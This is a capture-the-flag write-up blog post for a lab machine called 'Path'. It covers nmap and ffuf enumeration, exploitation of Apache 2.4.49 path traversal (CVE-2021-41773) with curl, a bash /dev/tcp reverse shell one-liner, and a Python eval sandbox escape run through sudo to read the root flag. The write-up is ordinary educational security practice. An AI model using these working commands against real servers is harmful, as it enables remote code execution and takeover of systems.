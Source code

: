 ```yaml
---
layout: post
author: maxin
title:  "Path"
date:   2022-03-15 02:21:10 PM -03
category: CrowSec
---
```


# Enumeration

## Nmap

{% highlight text %}
Nmap scan report for 10.9.2.20
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 31:28:28:0d:21:c3:02:13:61:6a:31:cb:17:97:36:64 (RSA)
|   256 1c:00:ec:12:ae:ce:cc:0c:95:a7:b3:fc:20:08:a8:44 (ECDSA)
|_  256 68:04:d8:ef:52:11:e8:a7:98:e4:d5:8f:36:b2:e2:df (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Data web
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods:
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

The machine has two apache and one of them has a vulnerable version `2.4.49`

## Fuzzing port 8080

This vulnerable depends of cgi-bin folder, let’s fuzzing to see if this machine has this folder

{% highlight bash %}
ffuf -u http://10.9.2.20:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
{% endhighlight %}

{% highlight text %}
cgi-bin/                [Status: 403, Size: 199, Words: 14, Lines: 8]
index.html              [Status: 200, Size: 45, Words: 2, Lines: 2]
{% endhighlight %}

Yes, the machine has the folder.

### Exploit

[CVE-2021-41773](https://github.com/jbovet/CVE-2021-41773)

{% highlight bash %}
curl --data "echo;id" 'http://10.9.2.20:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' 
{% endhighlight %}

Reverse shell

- Open a listener port and create a reverse shell

{% highlight bash %}
curl --data "echo;bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'" 'http://10.9.2.20:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
{% endhighlight %}

## Root

{% highlight text %}
sudo -l

User daemon may run the following commands on 203dc28a76f7:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
{% endhighlight %}

{% highlight python %}
import ssl

print('''
  ______                   _____
  / ____/________ _      __/ ___/___  _____
 / /   / ___/ __ \ | /| / /\__ \/ _ \/ ___/
/ /___/ /  / /_/ / |/ |/ /___/ /  __/ /__
\____/_/   \____/|__/|__//____/\___/\___/

''')
print('\n')

crowsec = "SuperSecretKey"

cmd = str(input("[CMD]>"))

if(cmd[0:7] != "crowsec"): -> We need to start the command with this word
    print("[X] Invalid prefix!")
    exit(1)
else:
    while True:
        cmd.replace("__import__","")
        cmd.replace("|","") -> Thisis BAD, we can bypass this using pipe with space. "| " like this
        cmd.replace("system","")
        try:
            result = eval(cmd)
        except:
            result = "ERROR"
        print(result)
        cmd = str(input("[CMD]>"))
        if(cmd[0:7] != "crowsec"):
            print("[X] Invalid prefix!")
            break
{% endhighlight %}

[Bypass Python sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

{% highlight bash %}
sudo python3 /opt/script.py
crowsec| print(open("/root/root.txt").read())
{% endhighlight %}